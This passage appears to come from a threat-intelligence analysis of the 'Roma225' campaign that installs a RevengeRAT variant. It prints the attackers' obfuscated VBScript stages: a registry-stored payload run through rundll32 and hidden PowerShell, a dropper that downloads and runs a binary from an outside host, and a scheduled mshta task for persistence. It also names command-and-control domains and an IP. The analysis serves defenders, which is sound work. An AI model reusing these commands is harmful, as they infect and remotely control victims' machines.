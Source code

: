 CreateObject("Wscript.Shell").regwrite "HKCU\AppEvents\Values", "TVqQAAMAAAAEAAAA//8AALgAAA.....[continue]" , "REG_SZ"
Decode and execute of the stored payload
Set A0102030405 = CreateObject("WScript.Shell")
Dim CDT0908087CDT
CDT0908087CDT = "cmd." + "exe /C rundll32." + "exe javascript:""\..\mshtml,RunHTMLApplication "";document.write();h=new%20ActiveXObject(""WScript.Shell"").run(""cmd." + "exe /c power" + "shell -" + "Execution" + "Policy Bypass -windows" + "tyle hidden -noexit -Command [Reflection." + "Assembly]::Load([Convert]::FromBase64String((Get-ItemProperty HKCU:\AppEvents).Values)).EntryPoint" + ".Invoke($N" + "ull,$" + "Null)"",0,true);" 
A0102030405.run CDT0908087CDT, vbHide
Create and execute another VBScript into  “%AppData%\Local\Temp\Z3j.vbs”, capable to download a new payload from the remote destination “hxxp://cdtmaster.com[.]br”
Set XbonXo = CreateObject("WScript.Shell")
Dim XoowA83AC
XoowA83AC = "c" + "M" + "d /c cd %TEMP% &@echo Z6h = ""h" + "t" + "tp://cdtmaster.com.br/Document." + "mp3"">>Z3j.vbs &@echo M2l = M5t(""R]Qc[S\b<SfS"")>>Z3j.vbs &@echo Set M1s = CreateObject(M5t(""[af[Z@<f[ZVbb^""))>>Z3j.vbs &@echo M1s.Open M5t(""USb""), Z6h, False>>Z3j.vbs &@echo M1s.send ("""")>>Z3j.vbs &@echo Set E3i = CreateObject(M5t(""OR]RP<ab`SO[""))>>Z3j.vbs &@echo E3i.Open>>Z3j.vbs &@echo E3i.Type = 1 >>Z3j.vbs &@echo E3i.Write M1s.ResponseBody>>Z3j.vbs & @echo E3i.Position = 0 >>Z3j.vbs &@echo E3i.SaveToFile M2l, 2 >>Z3j.vbs &@echo E3i.Close>>Z3j.vbs  &@echo function M5t(N3y) >> Z3j.vbs &@echo For S2r = 1 To Len(N3y) >>Z3j.vbs &@echo E0k = Mid(N3y, S2r, 1) >>Z3j.vbs &@echo E0k = Chr(Asc(E0k)- 14) >>Z3j.vbs &@echo G3f = G3f + E0k >> Z3j.vbs &@echo Next >>Z3j.vbs &@echo M5t = G3f >>Z3j.vbs &@echo End Function >>Z3j.vbs& Z3j.vbs &dEl Z3j.vbs & timeout 2 & DOCUMENT.EXE"
XbonXo.Run XoowA83AC, vbHide
Finally, the creation of a new task running again the “mshta.exe” utiliy with the “hxxps://pocasideiascdt.blogspot[.]com/” parameter every two hours. This URL points to web page which actually is a mirror of the  "https://minhacasaminhavidacdt.blogspot[.]com/" one.
Dim OUGo57658586GFFJHG
Set OUGo57658586GFFJHG = CreateObject("WScript.Shell")
asdmmmc= "c" + "Md /c Sc" + "hTa" + "sks /Cre" + "ate /sc MIN" + "UTE /MO 120 /TN OfficeData /TR ""m" + "sh" + "ta." + "exe h" + "ttp" + "s://pocasideiascdt.blogspot.com/"" /F "
OUGo57658586GFFJHG.Run asdmmmc, vbHide
self.close
Figure 5. Scheduled task for persistency
Summing up, the last stages of the infection chain are designed to install a RevengeRAT variant hidden into a regkey and run the “outlook.exe”  executable extracted by the “Document.exe” binary, retrieved from “hxxp://cdtmaster.com[.]br/Document.mp3”.
The following image briefly shows the malware infection chain:
Figure 6. Roma255 infection chain
RevengeRAT Payload
Once executed, the RAT immediately contacts its command and control servers sending victim machine’s information. In the analyzed sample, the author configured two different C2 destinations: "office365update[.]duckdns.org" and "systen32.ddns[.]net".
Figure 7. Configuration of the RevengeRAT
If one of these is down, the malware falls back to the other one. At time of writing, both the remote C2 were down, so it was only possible to emulate the server behavior in order to analyze the information sent by the RAT. 
Anyway, the malware establishes a TCP connection with the server and sends to it the following stream:
Figure 8. RevengeRAT check-in data
At first sight, it’s possible to spot a repeated sequence of chars used as separator between the data fields:
roma225
This string have been chosen by the attacker during the preparation of the malware, using the customization functionalities provided by the RevengeRAT builder. Splitting and decoding the data stream, information becomes clearer:
Figure 9. decoded check-in data
As told before, the C2s were unresponsive at time of writing, however their latest IP resolution indicates the infrastructure of the attacker could be located in different countries.
For instance, the domain “office365update[.]duckdns.org” resolved to the 184.75.209.169 IP addresss, geolocated in Canada.

